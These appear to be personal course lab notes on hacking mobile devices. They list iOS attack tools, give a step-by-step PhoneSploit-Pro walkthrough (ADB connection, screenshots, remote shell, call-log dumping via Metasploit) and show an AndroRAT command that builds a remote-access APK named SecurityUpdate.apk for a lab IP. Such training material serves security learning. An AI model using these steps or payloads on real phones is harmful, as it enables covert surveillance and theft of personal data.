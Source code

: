 


### OS Hacking Tools 
Various tools used by attackers to hack target iOS mobile devices are discussed below: 
-  Elcomsoft Phone Breaker 
-  Enzyme (https://github.com) 
- Network Analyzer: net tools (https://apps.apple.com) 
- iOS Binary Security Analyzer (https://github.com) 
- iWepPRO (https://apps.apple.com) 
- Frida (https://frida.re)

# Lab 1: Hack Android Devices

## Task 1: Exploit the Android Platform through ADB using PhoneSploit-Pro
- open parrot as sudo 
	 - command 
		 - ``cd PhoneSploit-Pro``
1. open tool   phonesploitpro
	- command 
		- ``python3 phonesploitpro.py`
	- Do you still want to continue to PhoneSploit Pro? = y
2.   to connect a device Type 1 and press Enter to select 1. Connect a Device
	- type: ``<ipad target>``
3. type ``6`` and press **Enter** to choose **Get Screenshot**.
	- **Do you want to Open the file?**, type ``Y``
4. to view List Installed Apps
	- type 13 and press **Enter** to choose **List Installed Apps**. and press **Enter** to choose **List Installed Apps**.
	-   Type ``2`` and press **Enter** to **List all packages**.
5. type **10** and press **Enter** to choose **Run an app**
	-  Type **2** and press **Enter** to **Enter Package Name Manually**
	-   To launch the calculator app, type **com.android.calculator2** and press **Enter**.
6. to  **Access Device Shell**.
	- type **14** and press **Enter** to choose **Access Device Shell**.
	- ``pwd``
	- ``cd sdcard``
	- ``cd Download``
	- Note down the location of images.jpeg
		- /sdcard/Download/images.jpeg
7. Open a Link on Device
	- type **23** and press **Enter** to choose Open a Link on Device
	-  **Enter URL**, type the desired URL (in this case,``https://pranx.com/hacker/`` and press Enter
	- switch to Android
	-  **Open with** pop-up appears **Click on Chrome | Just Once**. If **We value your privacy** popup appears, click on **AGREE**.
8. open parrot -> **Get Device Information** option.
	-  type **27** and press **Enter** to choose the **Get Device Information** option.
- end 
- to get call log info 
- first get connect to decivce through PhoneSploit-Pro and select 15 option which will hack using Metasploit and then use ``dum_calllog`` 
  - for next page ``N``
## Task 2: Hack an Android Device by Creating APK File using AndroRAT
- open parrot as sudo 
	- ``cd AndroRAT``
1. generating APK file using  androRAT
	- ``python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk``
2. command to copy the **SecurityUpdate.apk** file to the location **share** folder.